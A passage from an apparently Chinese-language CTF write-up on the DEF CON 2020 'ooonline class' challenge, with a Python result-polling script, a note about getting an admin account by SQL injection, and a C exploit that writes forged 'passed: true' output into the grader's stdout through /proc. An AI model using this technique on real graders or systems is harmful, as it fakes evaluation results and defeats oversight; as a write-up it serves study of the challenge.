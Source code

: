 ```python
            result = requests.get(f"{url}/submission/{id}/result",
                                  headers=auth_headers)
            r = result.json()
            print(r)

            if 'retry' in r:
                time.sleep(4)
            else:
                if 'Success' in r['message']:
                    print(r['message'][9:])
                    sys.exit(0)
                else:
                    print('trying again')
                    break
                
    sys.exit(-1)

if __name__ == '__main__':
    main()
```

通过 sql injection 获取到 admin 账号，然后查看到 submission ，被非预期之后，官方放出了 revenge ，预期解法是通过 /proc/来覆写stdout 

https://github.com/o-o-overflow/dc2020q-ooonline-class-public/blob/master/interaction/solution.c

```c
#include <sys/types.h>
#include <sys/syscall.h>
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>
#include <signal.h>

char fake_output[] = "      {\"passed\": true, \"message\": \"you got hacked\"}\n";

int main()
{
   pid_t me;
   char buf[4096];
   char cmd[4096];
   char state;
   pid_t parent;
   int fd;
   char path[4096];
   int num;

   // Get parent pid
   fd = syscall(SYS_open, "/proc/self/stat", O_RDONLY);
   num = read(fd, buf, 4096);
   buf[num] = '\0';

   sscanf(buf, "%d %s %c %d", &me, cmd, &state, &parent);
   //close(fd);

   // Write fake_output to parent stdout (so that that's the output of the grader script)
   snprintf(path, 4096, "/proc/%d/fd/1", parent);
   path[4095] = '\0';

   while (1) {
      fd = syscall(SYS_open, path, O_WRONLY | O_TRUNC);
      write(fd, fake_output, sizeof(fake_output)-1);
      close(fd);
   }

```
